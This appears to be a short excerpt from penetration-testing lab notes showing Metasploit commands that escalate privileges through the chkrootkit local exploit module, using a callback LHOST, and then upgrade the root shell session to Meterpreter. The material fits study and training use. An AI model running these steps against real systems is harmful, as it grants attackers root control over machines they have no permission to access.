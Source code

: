 ### Privilege Escalation

```bash
search chkrootkit
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION 2
set LHOST 192.101.97.2
run

# CTRL+Z to background the shell session
```

- Upgrade the privileged session 3 to a `Meterpreter` session

```bash
sessions -u 3
sessions 4
```

- `SESSION 4` is a Meterpreter privileged session
